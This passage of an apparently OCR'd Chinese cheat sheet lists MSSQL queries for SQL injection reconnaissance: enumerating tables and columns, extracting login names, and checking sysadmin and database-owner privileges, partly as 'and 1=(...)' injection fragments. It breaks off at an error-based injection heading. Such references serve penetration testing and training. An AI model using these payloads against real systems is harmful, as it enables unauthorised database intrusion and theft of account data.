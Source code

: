 	#列举表
	SELECT name FROM 库名..sysobjects WHERE xtype = 'U';
	
	#根据字段名列表名
	SELECT sysobjects.name as tablename, syscolumns.name as columnname FROM 库名..sysobjects JOIN 库名..syscolumns ON sysobjects.id = syscolumns.id WHERE sysobjects.xtype = 'U' AND syscolumns.name LIKE '%字段名%'
列举字段名

	#列举当前库中的表的字段
	SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = '表名');
	
	#列举master库中的表的字段
	SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name='表名';
单条数据获取

	#获取第 NNN 条数据
	SELECT TOP 1 name FROM (SELECT TOP NNN name FROM master..syslogins ORDER BY name ASC) sq ORDER BY name DESC
权限相关

	#判断当前用户权限
	SELECT is_srvrolemember('sysadmin');
	SELECT is_srvrolemember('dbcreator');
	SELECT is_srvrolemember('bulkadmin');
	SELECT is_srvrolemember('diskadmin');
	SELECT is_srvrolemember('processadmin');
	SELECT is_srvrolemember('serveradmin');
	SELECT is_srvrolemember('setupadmin');
	SELECT is_srvrolemember('securityadmin');

	#判断某指定用户的权限
	SELECT is_srvrolemember('sysadmin', 'sa');

	#判断是否是库权限
	and 1=(Select IS_MEMBER('db_owner'))

	#判断是否有库读取权限
	and 1= (Select HAS_DBACCESS('master'))

	#获取具有某个权限的用户名
	SELECT name FROM master..syslogins WHERE denylogin = 0;
	SELECT name FROM master..syslogins WHERE hasaccess = 1;
	SELECT name FROM master..syslogins WHERE isntname = 0;
	SELECT name FROM master..syslogins WHERE isntgroup = 0;
	SELECT name FROM master..syslogins WHERE sysadmin = 1;
	SELECT name FROM master..syslogins WHERE securityadmin = 1;
	SELECT name FROM master..syslogins WHERE serveradmin = 1;
	SELECT name FROM master..syslogins WHERE setupadmin = 1;
	SELECT name FROM master..syslogins WHERE processadmin = 1;
	SELECT name FROM master..syslogins WHERE diskadmin = 1;
	SELECT name FROM master..syslogins WHERE dbcreator = 1;
	SELECT name FROM master..syslogins WHERE bulkadmin = 1;

	#当前所拥有的权限
	SELECT permission_name FROM master..fn_my_permissions(null, 'DATABASE'); — current database
	SELECT permission_name FROM master..fn_my_permissions(null, 'SERVER'); — current server
	SELECT permission_name FROM master..fn_my_permissions('master..syslogins', 'OBJECT'); –permissions on a table
	SELECT permission_name FROM master..fn_my_permissions('sa', 'USER');
显错注入
